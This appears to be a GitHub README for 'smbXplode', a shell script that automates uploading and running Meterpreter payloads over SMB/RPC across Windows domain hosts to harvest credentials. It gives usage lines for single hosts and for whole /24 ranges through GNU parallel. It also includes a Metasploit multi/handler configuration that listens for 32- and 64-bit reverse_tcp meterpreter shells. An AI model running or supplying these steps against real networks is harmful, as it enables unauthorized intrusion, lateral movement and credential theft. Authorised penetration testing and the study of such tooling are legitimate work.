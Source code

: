 # smbXplode

What to do when Metasploit psexec module doesn't work for no good reason? 

This script is used to automate the process of harvesting credentials and getting Meterpreter sessions through smb and rpc in a windows domain.
For this to work you would need to have some kind of admin credentials to start with. or you could have some low privileged credentials; that you want to try them against the whole range and try to escalate your privilege later on. 

You can always re-adapt msfcommands.rc to automate the Metasploit commands that you want to run once you have a session. 

Also notice that due to the use of net rpc, you need to migrate first thing after a session otherwise the session would die. You can always fall back to use the Winexe command (which you can find commented in the script).

## Features 
- Detects remote host architecture before uploading payload
- Abstracts the process of upload/execute payload on remote host
- Combined with "gnu parallel", it can exploit whole ranges/host lists within one command line

### Future improvements
- Better integrate gnu parallel with in the script itself for more convenience.
- Improve the way arguments are passed, add arguments for number of threads, ip ranges, host files. 
- Add the ability to go through a list of captured credentials, to check them against the ip/range in scope. 
- Add pass the hash option if password is not available

## Usage 
Before running this script, simply make sure that you have two payload files (32 & 64 bit). Make sure to update the name of the files accordingly in the script. 


### Single Host
To run the script simply use the following syntax
```	
./smbXplode.sh domain username password hostIP
```

Example : 
```
./smbXplode.sh domain tito Password2015 10.10.10.10
```

### Multiple Hosts
So far it's not really integrated into the script, as I like to keep it as simple as possible. I rely on GNU parallel to do that. 
Notice that parallel passes the IP as the last parameter already. 

Example 
```
# Running against a /24
for i in {1..254}; do echo 10.10.10.$i; done | parallel -j 5 ./smbXplode.sh domain tito Password2015
```
```
# Running against host ips file
cat hosts.txt | parallel -j 5 ./smbXplode.sh domain tito Password2015
```

## Metasploit Handler
Make sure to have your Metasploit handler listening for both payloads (you can listen two different ports for 32, and 64).
Also, make sure you select the correct payload for the handler, I will demonstrate the reverce_tcp (32 and 64) 

Example :

```
use exploit/multi/handler
set autorunscript multi_console_command -rc /path/to/msfcommands.rc
set ExitOnSession false
set payload windows/x64/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 1111
run -j -z
set payload windows/meterpreter/reverse_tcp
set lport 2222
run -j -z
```

Now make sure that your connect back payloads are configured to match those ports and payload type. 
